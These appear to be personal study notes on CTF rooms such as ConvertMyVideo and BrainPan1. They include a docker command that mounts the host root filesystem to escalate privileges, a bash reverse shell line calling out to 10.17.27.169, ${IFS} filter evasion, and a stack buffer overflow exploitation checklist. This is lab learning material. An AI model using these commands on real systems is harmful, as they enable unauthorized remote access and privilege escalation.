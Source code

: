 ```bash
docker run -v /:/mnt --rm -it alpine(or bash) chroot /mnt sh
```


# CTFs
```
- Lazy Admin
- Anonymous
- Tomghost
- ConvertMyVideo
- pspy
- BrainPan1
- bfo
```

- ConvertMyVideo

```bash
${IFS} = using as space

bash -i >& /dev/tcp/10.17.27.169/7778 0>&1
```

- Found a file running by root with pspy64
- we could add a reverse shell and wait the connection

> the others I've done before.. so i'll just follow the videos

## Buffer Overflow 101 for brainPan1 CTF
```bash
- first FUZZ to find when the application gonna crash
- then: msf-pattern_create -l <number of crash>
- paste to the script
- copy the EIP value
- msf-pattern_offset -l <number of crash> -q <EIP number>
- grab the offset value
- we can send the buffer “A”*<offset value> + “B”*4  = the EIP should be 42424242
- grab badchars chars
- add to your script and u should follow the ESP dump to find the badchars
- or > Using Mona # check how to use Mona from PEH here 
# https://MashrurRahmanRawnok.github.io/notes/pnpt/peh/#exploit-development-using-python3-and-mona)
- take off the badchars of the script
- u should find the pointer with no protections
- invert the pointer
- generate msfvenom with the inverted pointer, open a listener to receive connection
- exploit!
```
